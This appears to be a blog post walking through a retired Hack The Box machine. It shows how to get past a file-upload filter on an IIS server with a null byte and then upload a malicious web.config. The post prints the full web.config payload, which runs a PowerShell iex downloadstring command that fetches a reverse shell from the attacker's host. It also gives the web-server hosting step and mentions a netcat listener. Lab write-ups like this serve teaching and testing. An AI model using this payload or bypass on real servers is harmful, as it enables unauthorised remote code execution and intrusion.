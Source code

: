 ```yaml
---
layout: post
title:  "Using web.config to Bypass File Upload Restrictions"
author: nanobyte
date:   2021-09-13
description: How to leverage web.config for bypassing a file upload restriction
tags: PowerShell HTB_Walkthrough BypassUploadRestriction
---
```


<h2>Bypassing Upload Restrictions</h2>

The following attack was identified during Hack the Box's retirned Bounty machine. In that vulnerable machine, there was access to a file upload. The application only took JPG extensions. This could be defeated by adding a null byte at the end of the file extension. To add this null byte, we wil type in %00, then the required JPG extension.

First use Burp Suite and enable intercept. Once ready, upload a file, in this scenario transfer.aspx is being uploaded:

<center><img src="/images/posts/webconfig-writeup/image_1.png" alt="upload-file"></center>

Once intercepted, we can add our null byte after our ASPX extension, and before our JPG extension:

<center><img src="/images/posts/webconfig-writeup/image_2.png" alt="burp-suite-intercept"></center>

If we were to send this to the server, we will see a successful file upload:

<center><img src="/images/posts/webconfig-writeup/image-3.png" alt="file-upload-success"></center>

However, if we navigate to this file, we would receive the following error:

<center><img src="/images/posts/webconfig-writeup/image-4.png" alt="file-load-error"></center>

With the presence of the web.config file, and the ability to bypass file upload restrictions discovered, we can create a malicious web.config, and upload a version that can maliciously download a reverse shell, which we can use to connect back to our machine. Please see the below web.config template:

<h2>Malicious web.config</h2>

We can create our own malicious web.config file, which contains a PowerShell command to download a reverse shell hosted on a web server:

{% highlight bash linenos %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')")
%>
{% endhighlight %}

Before you upload this file to the server, make sure that you have a PowerShell reverse shell hosted from your local machine. Here are some great PowerShell options available from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" target="_blank">PayloadAllTheThings</a>.

Once a PowerShell reverse shell is saved on your local machine, you must setup a web server to host this file. I generally usen a Python SimpleHTTPServer. This can be quickly setup with the following command, from the directory your reverse shell is saved in:

{% highlight bash linenos %}
python -m SimpleHTTPServer 80
{% endhighlight %}

Once the above is setup, you can then upload the malicious web.config file. You must perform the same bypass restriction, adding the required null byte and JPG extension. Once on the server, open a NetCat listener, and open the web.config file on the web server from your browser. Once completed, a reverse connection was received:

<center><img src="/images/posts/webconfig-writeup/image-5.png" alt="burp-suite-intercept"></center>
